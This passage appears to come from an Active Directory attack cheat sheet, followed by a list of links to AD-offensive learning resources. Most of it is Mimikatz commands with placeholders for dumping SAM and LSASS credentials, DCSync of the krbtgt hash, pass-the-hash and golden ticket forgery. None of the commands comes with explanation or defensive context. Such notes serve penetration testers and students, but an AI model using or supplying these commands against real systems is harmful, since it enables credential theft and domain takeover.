     privilege::debug   
    lsadump::sam   

Dumping credentials from LSASS   
    mimikatz # privilege::debug   
    mimikatz # sekurlsa::logonpasswords   
    
Dumping credentials from a minidump   
    mimikatz # sekurlsa::minidump lsass.dmp   
    mimikatz # sekurlsa::logonPasswords   
    
DCSync the krbtgt hash   
    mimikatz # lsadump::dcsync /domain:<domain> /user:krbtgt   
 
Pass the hash   
    mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:<cmd>   
 
Golden ticket creation and pass the ticket   
    mimikatz # kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash>   
 
 
# Resources
[Active Directory Security 101 Class](https://github.com/cfalta/adsec) 

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse
 
[Understanding Windows Lateral Movement](https://attl4s.github.io/assets/pdf/Understanding_Windows_Lateral_Movements.pdf)  

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise)

[Attacking Active Directory: 0 to 0.9](https://zer1t0.gitlab.io/posts/attacking_ad/)

[Active Directory Enumeration | ATTL4S](https://attl4s.github.io/assets/pdf/Understanding_Active_Directory_Enumeration.pdf) 

[Adsecurity Blog](https://adsecurity.org/) 

[RedTeam Security Live Hacking Demonstration](https://www.youtube.com/watch?v=k6EOhO3JKCQ) 

[NetNTLMtoSilverTicket | NotMedic's Github](https://github.com/NotMedic/NetNTLMtoSilverTicket) 
